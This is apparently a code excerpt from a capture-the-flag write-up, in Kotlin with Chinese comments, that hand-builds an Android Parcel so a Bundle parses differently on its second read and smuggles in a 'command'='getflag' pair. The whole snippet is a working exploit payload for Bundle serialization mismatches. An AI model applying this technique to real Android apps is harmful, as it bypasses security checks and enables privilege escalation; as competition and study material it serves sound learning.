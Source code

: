 ```kotlin
data.writeLong(0) // rtt
data.writeLong(Long.MAX_VALUE) // rttStdev，设置成一个显眼的值，方便定位
data.writeInt(0xAABB) // rttSpread (High)

data.writeInt(0xCCDD) // rttSpread (Low)

data.writeString("\u0007\u0000command\u0000\u0000\u0000\u0007\u0000getflag\u0000\u0000\u0000")
// 下面的内容生成出来其实就是上面这个字符串，但为了正确计算长度，就手写了
// 这个字符串的长度字段（也就是 \u0007 的前一个字节）就是那个被“吃掉”的
// 如果有这个长度字段，第二个键值对的key是整个字符串
// 而没有这个长度字段，key就会变成command，而value就是getflag

//  data.writeInt(-0x1) // W1: rttStread (Low), fake key len, this value is eaten
//  val fakeKeyStartPos = data.dataPosition()
//  data.writeString("command")
//  data.writeInt(0)
//  data.writeString("getflag")

//  val fakeKeyEndPos = data.dataPosition()
//  val fakeKeyLen = fakeKeyEndPos - fakeKeyStartPos
//  data.setDataPosition(fakeKeyStartPos - 4)
//  data.writeInt(fakeKeyLen / 2)
//  data.setDataPosition(fakeKeyEndPos)

//  data.writeInt(0)

// 13*2=26 (+2) bytes, 13 00 00 00 18 00 00 00 [whatever]
val fakeValueLenPos = data.dataPosition() + 4
val fakeValueStartPos = data.dataPosition() + 8
// 这里是第一次读取到的第二个键值对的value部分
// 这里字符串的长度是0xD，也就13，parser会误认为这是类型标记，代表ByteArray
// 将字符串内容的第一个字段覆盖为长度，就可以把直到下一个command为止的内容放进去
data.writeString("qwertyuiopasd")
// 而在第二次读取时，由于错位，这个字符串就变成了第三个键值对的key，而value就是"command"
val fakeValueEndPos = data.dataPosition()

data.setDataPosition(fakeValueLenPos)
data.writeInt(fakeValueEndPos - fakeValueStartPos) // 在这里覆盖长度
data.setDataPosition(fakeValueEndPos)

// 这里是第一次读取到的第三个键值对
data.writeString("command") // 00 00 00 00
// 第二次读取到此结束，由于已经成功读取了三个键值对，后面的内容被忽略
data.writeInt(0)
data.writeString("whatever")


val bundleEndPos = data.dataPosition()
data.setDataPosition(bundleLenPos)
val bundleLen: Int = bundleEndPos - bundleStartPos
data.writeInt(bundleLen)
data.setDataPosition(0)

var raw = data.marshall()

// raw即为最终payload，以下为测试代码，可以忽略

var bundle = Bundle(javaClass.classLoader)
bundle.readFromParcel(data)
var keyset = bundle.keySet()

val newPc = Parcel.obtain()
newPc.writeBundle(bundle)
```